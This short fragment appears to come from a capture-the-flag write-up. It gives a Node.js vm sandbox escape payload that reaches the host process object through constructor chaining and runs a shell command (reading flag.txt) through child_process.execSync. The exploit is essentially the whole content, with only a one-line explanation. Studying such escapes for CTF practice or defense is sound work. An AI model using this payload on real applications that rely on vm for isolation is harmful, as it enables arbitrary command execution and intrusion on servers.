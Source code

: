 This is based on the sanbox escape of the node js vm package.

PAYLOAD - const process = this.constructor.constructor('return this.process')(); process.mainModule.require('child_process').execSync('cat flag.txt').toString();
